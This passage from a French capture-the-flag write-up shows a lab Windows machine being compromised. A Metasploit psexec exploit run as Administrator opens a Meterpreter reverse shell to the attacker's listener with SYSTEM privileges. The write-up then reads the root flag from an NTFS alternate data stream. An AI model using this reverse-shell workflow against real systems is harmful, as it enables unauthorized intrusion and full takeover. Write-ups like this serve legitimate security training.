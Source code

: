 ```plain

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.121     yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.15.121:4444
[*] 10.10.10.63:445 - Connecting to the server...
[*] 10.10.10.63:445 - Authenticating to 10.10.10.63:445 as user 'Administrator'...
[*] Sending stage (206403 bytes) to 10.10.10.63
[*] Sleeping before handling stage...
[*] 10.10.10.63:445 - Selecting PowerShell target
[*] 10.10.10.63:445 - Executing the payload...
[+] 10.10.10.63:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.10.15.121:4444 -> 10.10.10.63:49878) at 2018-04-19 20:00:54 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Fake news
---------

Avec ces nouveaux privilèges on ne retrouve pas la trace du flag final (*root.txt*). A la place on remarque un fichier texte :  

```plain
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\hm.txt"
The flag is elsewhere.  Look deeper.
```

Victory
-------

J'ai eu recours à l'utilitaire [streams.exe de SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/streams) pour fouiller la présence [d'ADS](https://docs.microsoft.com/en-us/sysinternals/downloads/streams) sur le système, ce qui nous ramène... sur le même fichier :  

```plain
c:\Documents and Settings\Administrator\Desktop\hm.txt:
1621538:        :root.txt:$DATA 34
```

L'accès au stream alternatif est facilité par le support des *ADS* par *Metasploit* :  

```plain
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\hm.txt:root.txt:$DATA"
afbc5bd4b615a60648cec41c6ac92530
```


*Published May 24 2018 at 22:37*

